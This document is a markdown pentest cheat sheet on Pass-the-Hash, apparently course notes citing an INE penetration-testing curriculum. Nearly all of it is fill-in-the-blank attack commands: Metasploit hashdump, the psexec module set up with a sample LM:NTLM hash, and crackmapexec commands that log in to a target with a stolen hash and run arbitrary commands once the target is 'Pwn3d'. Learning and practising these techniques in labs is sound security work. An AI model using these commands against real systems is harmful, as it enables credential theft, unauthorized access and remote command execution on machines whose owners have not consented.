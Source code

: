 # Pass-The-Hash

* [Metasploit](#metasploit)
* [Crackmapexec](#crackmapexec)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Metasploit

### Kiwi

```
hashdump
```

Format:  
[USERNAME]:[RID]:[LM-HASH]:[NTLM-HASH]:::

*LM Hash is the same for every user, the NTLM hash is unique.*

### PSExec

```
search psexec
```
```
use use exploit/windows/smb/psexec
```
```
set SMBUser [USERNAME]
```
```
set SMBPass [LM-HASH]:[NTLM-HASH]
```
Example:
```
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```
```
set target Native\ upload
```
*Target may not need to be set, or may need to be set to something else. Might have to try a few differnet targets to get this to work*
Set RHOSTS, LPORT, & possibly other options and exploit*

***********************************************************************

## Crackmapexec

Check for Pwnage:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]"
```
Example:
```
crackmapexec smb 10.3.31.187 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"
```

Once Pwn3d, issue commands like this:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]" -x "[COMMAND]"
```
*Ignore python script errors*

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
